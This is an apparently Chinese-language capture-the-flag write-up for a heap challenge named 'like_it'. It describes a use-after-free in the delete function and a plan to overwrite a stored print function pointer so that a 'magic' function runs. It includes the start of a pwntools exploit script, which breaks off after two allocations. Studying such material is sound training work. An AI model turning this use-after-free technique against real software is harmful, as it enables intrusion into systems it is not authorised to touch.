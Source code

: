 可以看到delete函数中free了两次，但都没有将相应的指针清零，构成UAF漏洞可以利用

show函数

![](/n0va6/assets/gitbook/images/image-20250804175822860.png)

输入堆块索引，调用堆块中存储的print函数

程序还给了magic函数

![](/n0va6/assets/gitbook/images/image-20250804180235954.png)

以上为主要函数逻辑

利用思路：

可以利用delete函数中的UAF漏洞进行利用，先申请两个大堆块(执行两次add函数，实际上堆块中包含堆块，一共4个)把第一个大堆块称为chunk0，第二个称为chunk1，申请chunk0中堆块时，内容可以随便输入，大小可为0x18,0x20,0x28...，但不能为0x10，否则后面利用UAF的时候就无法申请到print函数所在堆块的位置，不能对其进行修改，同样chunk1也不能申请0x10的堆块

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
```
